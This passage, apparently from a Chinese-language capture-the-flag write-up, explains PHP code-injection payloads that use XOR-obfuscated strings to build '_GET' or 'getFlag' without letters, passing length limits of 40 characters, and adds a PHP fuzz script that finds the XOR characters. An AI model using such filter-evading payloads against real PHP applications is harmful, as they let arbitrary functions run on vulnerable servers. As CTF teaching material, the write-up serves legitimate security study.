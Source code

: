 ```php
$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);&_=getFlag
拆解如下：        第1个GET请求参数：code                &     第2个GET请求参数：_
   $_="`{{{"^"?<>/";         ${$_}[_](${$_}[__]);     &     _=getFlag
   $_="_GET";                $_GET[_]($_GET[__]);     &     _=getFlag
                             getFlag($_GET[__]);
                             getFlag(null);
```

这个 **payload** 的长度是 **37** ，符合题目要求的 **小于等于40** 。另外，我 **fuzz** 出了长度为 **28** 的 **payload** ，如下：

```php
$_="{{{{{{{"^"%1c%1e%0f%3d%17%1a%1c";$_();
```

![25](25.png)

这里也给出 **fuzz** 脚本，方便大家进行 **fuzz** 测试：

```php
<?php
$a = str_split('getFlag');
for($i = 0; $i < 256; $i++){
    $ch = '{'^ chr($i);
    if (in_array($ch, $a , true)) {
        echo "{ ^ chr(".$i.") = $ch<br>";
    }
}
echo "{{{{{{{"^chr(28).chr(30).chr(15).chr(61).chr(23).chr(26).chr(28);

?>
```

![26](26.png)
